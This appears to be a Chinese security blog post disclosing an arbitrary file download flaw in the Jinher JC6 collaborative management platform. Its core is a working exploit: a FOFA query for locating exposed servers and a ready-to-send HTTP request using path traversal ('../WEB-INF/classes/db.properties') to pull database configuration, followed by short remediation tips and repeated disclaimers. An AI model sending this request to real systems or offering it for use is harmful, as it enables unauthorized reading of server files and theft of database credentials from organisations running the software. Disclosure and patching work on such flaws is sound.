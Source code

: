 #  金和JC6协同管理平台 oaplusrangedownloadfile 任意文件下载漏洞   
 HK安全小屋   2025-05-06 15:12  
  
免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
影响版本:  
  
金和JC6协同管理平台  
  
漏洞描述  
  
金和数字化智能办公平台（简称JC6）是一款结合了人工智能技术的数字化办公平台，为企业带来了智能化的办公体验和全面的数字化转型支持。金和JC6协同管理平台oaplusrangedownloadfile 存在文件下载漏洞，攻击者可利用该漏洞获取服务器敏感信息。  
  
FOFA:  
```
app="Jinher-OA"
```  
  
POC:  
```
GET /jc6/JHSoft.WCF/login/oaplusrangedownloadfile?filename=../WEB-INF/classes/db.properties HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
```  
  
读取db.properties文件可以获取数据库配置信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI2mzZEEtwXs6vgpKdVVIJiaeKkgib3pKSduHoicPR1wkNyXghxk1DPAZARQwLTYJTrXoPcUVYkEG904A/640?wx_fmt=png&from=appmsg "")  
  
****  
**修复建议**  
  
1、关闭互联网暴露面或设置访问权限，禁止非管理IP访问对应页面。  
  
2、关注厂商升级至安全版本，  
  
3、及时联系官方获取更新补丁  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
